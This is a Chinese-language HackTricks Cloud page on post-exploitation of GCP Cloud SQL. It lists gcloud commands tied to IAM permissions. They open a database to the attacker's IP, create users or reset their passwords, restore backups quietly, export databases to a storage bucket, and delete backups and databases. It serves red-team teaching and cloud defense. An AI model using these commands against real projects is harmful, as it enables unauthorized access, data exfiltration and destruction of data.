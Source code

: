 # GCP - Cloud SQL 后期利用

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Cloud SQL

有关 Cloud SQL 的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

要连接到数据库，您**只需访问数据库端口**并知道**用户名**和**密码**，没有任何 IAM 要求。因此，获取访问权限的一个简单方法是，假设数据库具有公共 IP 地址，更新允许的网络并**允许您自己的 IP 地址访问它**。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
也可以使用 **`--no-backup`** 来 **中断数据库的备份**。

由于这些是要求，我不完全确定 **`cloudsql.instances.connect`** 和 **`cloudsql.instances.login`** 的权限是什么。如果你知道，请发送一个 PR！

### `cloudsql.users.list`

获取数据库的 **所有用户** 的 **列表**：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

此权限允许**在数据库中创建新用户**：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

此权限允许**更新数据库中的用户**。例如，您可以更改其密码：

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

备份可能包含**旧的敏感信息**，因此检查它们是很有趣的。\
**在数据库中恢复备份**：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
为了以更隐蔽的方式进行操作，建议创建一个新的 SQL 实例，并在该实例中恢复数据，而不是在当前运行的数据库中。

### `cloudsql.backupRuns.delete`

此权限允许删除备份：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**将数据库导出**到 Cloud Storage Bucket，以便您可以从那里访问它：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**从 Cloud Storage Bucket 导入数据库**（覆盖）：
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

从数据库实例中删除数据库：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
